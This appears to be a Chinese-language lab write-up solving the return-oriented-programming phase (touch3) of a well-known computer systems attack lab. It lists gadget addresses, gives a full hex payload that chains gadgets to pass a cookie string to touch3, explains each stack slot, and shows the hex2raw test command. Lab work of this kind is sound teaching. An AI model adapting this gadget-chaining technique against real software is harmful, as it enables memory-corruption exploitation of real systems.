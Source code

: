 

参考上文，touch3的地址为：0000000000401959，而cookie的16进制字符串为：3263306465396334。

0x401a99

0x401a46	0x401a19	0x4019fe	0x401a4d	0x401a99	0x401ad8	0x401a38	0x401a19

综上，构造如下攻击代码5.txt:

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

46 1a 40 00 00 00 00 00
19 1a 40 00 00 00 00 00
fe 19 40 00 00 00 00 00

48 00 00 00 00 00 00 00

4d 1a 40 00 00 00 00 00
99 1a 40 00 00 00 00 00
d8 1a 40 00 00 00 00 00
38 1a 40 00 00 00 00 00
19 1a 40 00 00 00 00 00

59 19 40 00 00 00 00 00

32 63 30 64 65 39 63 34
```

由如下部分组成：

1. 采用0x00填充getbuf的下拉栈
2. 在原返回地址上写入movq %rsp, %rax的地址
3. gadget1的上方写入movq %rax, %rdi的地址
4. gadget2上方写入pop %rax的地址
5.  gadget3上方写入偏移量
6. 偏移量上方写入movl %eax, %edx的地址
7. gadget4上方写入movl %edx, %ecx的地址
8. gadget5上方写入movl %ecx, %esi的地址
9. gadget6上方写入lea (%rdi, %rsi, 1)的地址
10. gadget0上方写入movq %rax, %rdi的地址
11. gadget7上方写入touch3函数的地址
12. touch3函数地址上方写入cookie的十六进制字符串



进行检验：

```shell
cat 5.txt | ./hex2raw | ./ctarget -q
```

